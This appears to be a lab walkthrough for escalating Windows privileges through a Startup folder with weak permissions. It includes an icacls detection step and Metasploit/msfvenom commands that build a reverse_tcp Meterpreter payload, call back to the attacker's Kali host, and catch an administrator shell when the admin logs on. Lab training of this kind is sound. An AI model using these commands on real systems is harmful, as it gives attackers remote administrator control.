 

**Detection**  

Windows VM

1. Open command prompt and type: **icacls.exe "C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup"**  
2. From the output notice that the “BUILTIN\Users” group has full access ‘(F)’ to the directory.

**Exploitation**

Kali VM

1. Open command prompt and type: **msfconsole**  
2. In Metasploit (msf > prompt) type: **use multi/handler**  
3. In Metasploit (msf > prompt) type: **set payload windows/meterpreter/reverse_tcp**  
4. In Metasploit (msf > prompt) type: **set lhost [Kali VM IP Address]**  
5. In Metasploit (msf > prompt) type: **run**  
6. Open another command prompt and type: **msfvenom -p windows/meterpreter/reverse_tcp LHOST=[Kali VM IP Address] -f exe -o x.exe  
**7. Copy the generated file, x.exe, to the Windows VM.

Windows VM

1. Place x.exe in “C:\ProgramData\Microsoft\Windows\Start Menu\Programs\Startup”.  
2. Logoff.  
3. Login with the administrator account credentials.

Kali VM

4. Wait for a session to be created, it may take a few seconds.  
5. In Meterpreter(meterpreter > prompt) type: getuid  
6. From the output, notice the user is “User-PC\Admin”